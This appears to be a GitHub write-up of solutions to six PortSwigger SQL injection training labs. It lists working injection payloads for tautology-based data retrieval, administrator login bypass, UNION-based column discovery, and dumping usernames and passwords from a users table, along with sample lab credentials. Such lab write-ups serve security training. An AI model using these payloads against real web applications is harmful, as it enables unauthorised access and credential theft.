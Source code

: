 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can ay the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- `
   ||'~'|| will join `username and password` like  administrator~wet39rb7kc6kt99lq0o6
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`
 
 
 
   
   
